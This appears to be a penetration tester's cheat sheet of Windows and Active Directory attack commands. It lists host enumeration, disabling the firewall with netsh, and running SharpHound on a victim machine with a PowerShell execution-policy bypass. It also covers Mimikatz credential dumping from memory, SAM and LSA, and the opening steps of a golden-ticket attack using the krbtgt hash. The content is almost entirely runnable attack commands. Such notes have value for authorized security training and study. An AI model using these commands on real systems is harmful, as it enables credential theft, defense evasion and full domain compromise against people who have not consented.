 ```
netstat -ano # Check Network Comms
net share # list shares and their local path
net user /domain alex # Check User
net user <username> # see information for a given user
net localgroup # enumerate local groups
whoami /priv # Look for things like SeImpersonatePrivilges
```
- Turn off firewall
```

NetSh Advfirewall set allprofiles state off # Turn off the firewall
```
## Windows AD Attacking
#### Bloodhound for enumerating AD and visualize potential attack chains
- Bloodhound Install and neo4j setup
```
sudo apt install bloodhound
# Bloodhound runs on a tool called neo4j, so set that up
neo4j console # enter this and it will direct you to a localhost:port to access and change the default creds neo4j:neo4j.  Can close the browser.
bloodhound # in teh terminal, it opens up the browser and gives you a green checkmark if you're connected to the DB.  You should see "NO DATA RETURNED FROM QUERY"
```
	- Pull data with an ingestor
```
# can use Invoke-BloodHound from PowerShell or SharpHound

Google search "Invoke-Bloodhound" 
# https://github.com/BloodHoundAD/BloodHound/wiki/Data-Collector
# https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1

Take the SharpHound file and put it on your victim machine
powershell -ep bypass
. .\SharpHound.ps1 # Activates the Ingestor
Invoke-BloodHound -CollectionMethod All -Domain <DomainName> -ZipFileName <file.zip> # This commend is collecting all teh data. Get the file.zip file over to the attack machine
```
	- Enumerating Domain DAta wiht Bloodhound
```
- Upload Data in your webPortal using the menu on the right.  Upload the file.zip
- Click the hamburger on the left of the screen next to the input field.
- Move over to queries and select "Find All Domain Admins" and go through each query. Pay attention to "Find Shortest Paths to Domain Admins"
```
#### Mimikatz
	- Credential dumping with Mimikatz (https://github.com/gentilkiwi/mimikatz/wiki)

```
mimikatz.exe  # this requires an interactive shell
privilege::debug # looking for a Privelege '20' OK. This allows us to bypass the protections to access the memory, which is where mimikatz goes
sekurlsa::logonpasswords # gets logon users adn hashes. NTLM can be used in PtH but not NTLMv2
lsadump::sam or lsadump::sam /patch # attempts to dump the SAM file
lsadump::lsa /patch # dumping the lsa - local security authority
ntds.dit # will dump ntds file
```
- Golen Ticket Attacks
```
mimikatz.exe # need a Kerberos TGT, we can access any resource or system on the domain
privilege::debug # as always
lsadump::lsa /inject /name:krbtgt # pull down just one user
# Open up a notepad and copy the SID and teh NTLM hash of the kerberos TGT account
```